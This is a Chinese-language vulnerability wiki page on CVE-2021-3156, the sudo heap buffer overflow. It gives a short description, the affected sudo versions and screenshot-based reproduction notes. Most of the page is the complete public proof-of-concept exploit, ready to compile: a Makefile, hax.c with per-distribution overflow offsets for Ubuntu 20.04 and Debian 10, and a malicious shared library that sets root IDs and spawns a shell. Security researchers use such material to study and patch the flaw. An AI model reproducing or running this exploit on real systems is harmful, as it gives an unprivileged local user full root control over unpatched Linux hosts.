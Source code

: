 # Linux sudo权限提升漏洞 CVE-2021-3156

## 漏洞描述

2021年1月26日，Linux安全工具sudo被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得root权限，并且是在默认配置下。此漏洞已分配为CVE-2021-3156，危险等级评分为7分。

当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。研究人员利用该漏洞在多个Linux发行版上成功获得了完整的root权限，包括Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和Fedora 33（sudo 1.9.2），并且sudo支持的其他操作系统和Linux发行版也很容易受到攻击。

## 漏洞影响

> Sudo 1.8.2 - 1.8.31p2
>
> Sudo 1.9.0 - 1.9.5p1

## 漏洞复现

> [!NOTE]
>
> 目前POC已经在Github公开

[Linux sudo权限提升漏洞 CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

![](http://wikioss.peiqi.tech/vuln/linux-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

当前可以验证的Linux环境为

```
 Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
 Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
```

> [!NOTE]
>
> 这里使用腾讯云中的Ubuntu镜像进行复现

![](http://wikioss.peiqi.tech/vuln/linux-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用命令

![](http://wikioss.peiqi.tech/vuln/linux-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/linux-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> POC目录已经加入漏洞利用代码
>
> 另一个无交互式shell使用的脚本 https://github.com/Rvn0xsy/CVE-2021-3156-plus

Makefile

```shell
all:
	rm -rf libnss_X
	mkdir libnss_X
	gcc -o sudo-hax-me-a-sandwich hax.c
	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```



hax.c

```c
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512

typedef struct {
	char *target_name;
	char *sudoedit_path;
	uint32_t smash_len_a;
	uint32_t smash_len_b;
	uint32_t null_stomp_len;
	uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    printf("  usage: %s <target>\n\n", prog);
    printf("  available targets:\n");
    printf("  ------------------------------------------------------------\n");
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    printf("  ------------------------------------------------------------\n");
    printf("\n");
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = &targets[ atoi(argv[1]) ];

    printf("using target: '%s'\n", target->target_name);

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}
```



lib.c

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
}
```

